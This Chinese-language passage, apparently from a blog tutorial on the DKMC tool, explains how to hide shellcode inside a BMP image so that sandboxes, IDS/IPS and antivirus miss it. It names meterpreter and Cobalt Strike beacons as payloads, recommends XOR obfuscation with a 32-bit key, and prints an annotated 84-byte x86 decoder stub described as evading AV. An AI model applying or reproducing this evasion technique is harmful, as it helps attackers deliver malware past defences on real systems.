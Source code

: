 ![](/img/hack/DKMC/1505207181350.png)

因此这样就可以创建出有效可用的shellcode payload。

## 混淆payload

一张图片也可以称为有效的shellcode payload。这张图可以在网络上传输，也一样可以作为shellcode执行。

至此，就可以绕过大部分的沙盒，很多沙盒并不会分析这张简单的BMP图片。

IDS/IPS和AV可能会执行静态分析，检测恶意程序（meterpreter和Cobalt Strike Beacon）

接下来就是混淆payload,可以通过使用简单的逻辑操作加密shellcode，比如使用异或(xor)

密钥为在`0x11111111`到`0xffffffff`32位的整型数。

为了防止爆破出真实代码，模糊处理时一定要使用key。

通过84字节的汇编代码规避AV：

```
0: eb 44              jmp   46
2: 58                 pop   eax
3: 68 XX XX XX XX     push  0xXXXXXXXX
8: 5e                 pop   esi
9: 31 c9              xor   ecx,ecx
b: 89 cb              mov   ebx,ecx
d: 6a 04              push  0x4
f: 5a                 pop   edx
10: 68 XX XX XX XX    push  0xXXXXXXXX
15: 5e                pop   esi
16: ff 30             push  DWORD PTR [eax]  <--.
18: 59                pop   ecx                 |
19: 0f c9             bswap ecx                 |
1b: 43                inc   ebx                 |
1c: 31 d9             xor   ecx,ebx             |
1e: 81 f9 XX XX XX XX cmp   ecx,0xMAGIC         |           
24: 68 XX XX XX XX    push  0xXXXXXXXX          |
29: 5f                pop   edi                 |
2a: 75 f0             jne   16   <--------------.
2c: 0f cb             bswap ebx
2e: b9 02 00 00 00    mov   ecx,0x2
33: 01 d0             add   eax,edx <------------. 
35: 31 18             xor   DWORD PTR [eax],ebx  |
37: 68 XX XX XX XX    push  0xXXXXXXXX           |
3c: 5f                pop   edi                  |
3d: e2 f4             loop  33 <-----------------.
3f: 2d 04 00 00 00    sub   eax,0x4
44: ff e0             jmp   eax
46: e8 b7 ff ff ff    call  2
```
